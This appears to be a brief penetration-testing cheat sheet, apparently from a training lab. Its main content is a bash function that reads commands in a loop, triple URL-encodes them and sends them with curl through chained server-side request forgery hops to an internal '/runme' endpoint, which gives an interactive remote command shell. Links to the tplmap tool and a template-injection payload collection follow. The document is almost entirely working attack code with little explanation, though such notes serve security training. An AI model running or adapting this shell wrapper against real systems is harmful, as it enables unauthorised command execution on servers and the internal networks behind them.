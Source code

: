 ## Automate executing commands
```
[!bash!]$ function rce() {
function> while true; do
function while> echo -n "# "; read cmd
function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
function while> curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
function while> echo ""
function while> done
function> }
```


# Useful Links

git clone https://github.com/epinna/tplmap.git
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
